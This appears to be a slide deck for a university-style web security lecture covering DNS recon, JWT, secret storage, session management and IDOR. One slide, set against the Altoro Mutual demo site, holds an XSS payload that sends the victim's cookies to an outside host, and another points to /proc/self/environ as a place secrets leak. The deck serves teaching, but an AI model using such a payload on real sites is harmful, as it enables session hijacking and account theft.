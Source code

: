 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics, `__name__`, `__main__`, `__dir__`
* JWT

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?

---

### DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

More on this in later weeks

* `.env` + `.gitignore`
* Scoped env command

---

If it's in the environment, it's accessible to the entire process.  
Even if you unset it in the code >:(

* `/proc/self/environ`

{{% /section %}}

---

> Alternatives

* External data sources (config servers)
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```
<script>fetch("https://[...]/?v="+btoa(document.cookie))</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---

# IDOR

> Insecure Direct Object Reference


> 🚪🚪

---

## Logistics

Midterm Exam, Reports
